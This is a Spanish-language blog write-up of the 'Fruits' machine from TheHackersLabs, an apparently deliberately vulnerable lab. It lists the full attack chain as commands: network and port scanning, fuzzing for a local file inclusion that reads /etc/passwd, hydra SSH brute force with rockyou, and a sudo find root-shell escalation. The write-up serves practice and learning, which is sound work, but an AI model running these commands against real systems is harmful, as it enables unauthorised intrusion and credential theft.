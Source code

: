 ```yaml
---
layout: post
title: "Fruits"
date: 2024-06-03 13:05:23
category: hackerlabs
vm: hackerlabs
---
```


<table class="log">
  <tr>
    <td rowspan="5"><img src="/notas/public/img/thehackerlabs/thehackerlabs.png" width=260></td>
    <td></td>
  </tr>
  <tr> <td><strong>Máquina:</strong> Fruits </td> </tr>
  <tr> <td><strong>SO:</strong> Linux</td> </tr>
  <tr> <td><strong>Dificultad:</strong> <span class="easy">Facil</span></td> </tr>
  <tr> <td><strong><a href="https://thehackerslabs.com/fruits/" target="_blank"> Descarga</a></strong></td> </tr>
</table>

<br>

![img](/notas/public/img/thehackerlabs/Fruits/host.png){:.margin}

**1\.** Descubriendo dispositivos en la red.

`sudo arp-scan -I enp2s0 --localnet`

![img](/notas/public/img/thehackerlabs/Fruits/arp.png){:.margin}

**2\.** Escaneando puertos y servicios disponibles.

`sudo nmap -p- --open -sCV -T5 --min-rate=5000 192.168.1.5 -Pn -n`

![img](/notas/public/img/thehackerlabs/Fruits/nmap.png){:.margin}

**3\.** En la web tenemos un buscador, que me lleva a un php pero sin mas.

`http://192.168.1.5:80`

![img](/notas/public/img/thehackerlabs/Fruits/80.png){:.margin}
![img](/notas/public/img/thehackerlabs/Fruits/80redirect.png){:.margin}

**4\.** Descubriendo directorios y archivos en el servidor web.

`gobuster dir -u http://192.168.1.5/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,txt,html -q`

![img](/notas/public/img/thehackerlabs/Fruits/gobuster.png){:.margin}

**5\.** Fuzzeando parametros para un LFI.

`wfuzz -c --hc=404 --hl=1 -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt 'http://192.168.1.5/fruits.php?FUZZ=/etc/passwd' 2>/dev/null | grep -vE 'Target:|\*|Total'`

![img](/notas/public/img/thehackerlabs/Fruits/wfuzz.png){:.margin}

**6\.** Comprobando a que efectivamente se de un LFI.

`http://192.168.1.5/fruits.php?file=/etc/passwd`

![img](/notas/public/img/thehackerlabs/Fruits/etcpasswd.png){:.margin}

**7\.** Tengo dos usuarios disponibles en la maquina.

`view-source:http://192.168.1.5/fruits.php?file=/etc/passwd`

![img](/notas/public/img/thehackerlabs/Fruits/users.png){:.margin}

**8\.** Haciendo fuerza bruta al ssh.

`hydra -l bananaman -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.5`

![img](/notas/public/img/thehackerlabs/Fruits/hydra.png){:.margin}

**9\.** Me conecto como usuario bananaman.

`ssh bananaman@192.168.1.5`

![img](/notas/public/img/thehackerlabs/Fruits/ssh.png){:.margin}

**10\.** Revisando permisos sudo.

`sudo -l`

![img](/notas/public/img/thehackerlabs/Fruits/sudol.png){:.margin}

**11\.** Escalando privilegios.

_\- Busco en [gtfobins](https://gtfobins.github.io/gtfobins/find/#sudo) la forma de escalar con este binario._

````sudo find . -exec /bin/sh \; -quit````

![img](/notas/public/img/thehackerlabs/Fruits/root.png){:.margin}


<br>

<a href="#">_Finalizado._</a>